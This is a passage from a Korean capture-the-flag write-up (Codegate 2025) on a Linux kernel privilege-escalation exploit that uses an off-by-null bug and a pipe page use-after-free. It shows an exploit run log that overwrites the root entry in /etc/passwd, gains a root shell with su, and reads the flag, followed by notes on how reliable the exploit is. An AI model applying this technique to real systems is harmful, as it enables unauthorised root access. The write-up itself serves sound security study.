 ```c
```

이 공격을 통해, `/etc/passwd`에 새로운 루트 비밀번호(`root`)를 설정하고, root/root로 로그인하면 root 쉘을 획득할 수 있습니다.

```python
[+] Customized pew.ko exploit (Off-by-Null / Dup-Pipe attack / CVE-2021-22555)
[*] Creating holes in pipes...
[*] Triggering Off-by-Null via /dev/pew...
[*] Found dup pipes: victim=122, prev=123
[*] Freeing victim pipe's page for UAF...
[*] Spraying /etc/passwd files...
[*] Overwriting /etc/passwd root entry...
[+] /etc/passwd overwrite success: FD 32
id: /etc/passwd: bad record
uid=1000 gid=1000(ctf) groups=1000(ctf)
root:$1$root$9gr5KxwuEdiI80GtIzd.U0:0:0:test:/root:/bin/sh
:/bin/sh
sh: can't access tty; job control turned off
sh: /etc/passwd: bad record
/home/ctf $ su
Password: 
sh: can't access tty; job control turned off
/home/ctf # id
uid=0(root) gid=0(root) groups=0(root)
/home/ctf # cat /flag
codegate2025{!nT3nD3d_s0Lut!0N_W@s_P4gE_u@F_Y0UrS_T0o?}
```

---

## 📌 **Step 5: 주의점**

- pipe_buffer의 page를 조작하고 중복된 pipe_buffer를 찾는 과정에서 운 요소가 존재하기 때문에 익스는 항상 성공하지 않습니다.
- 따라서 init 스크립트를 조작하여 ./exploit을 실행하는 과정을 자동화하고 익스가 성공할 때까지 여러 번 시도하는 방식으로 진행했습니다.

---

## 📌 **Reference**

[Page-UAF/CVE-2021-22555 at master · Lotuhu/Page-UAF](https://github.com/Lotuhu/Page-UAF/tree/master/CVE-2021-22555)
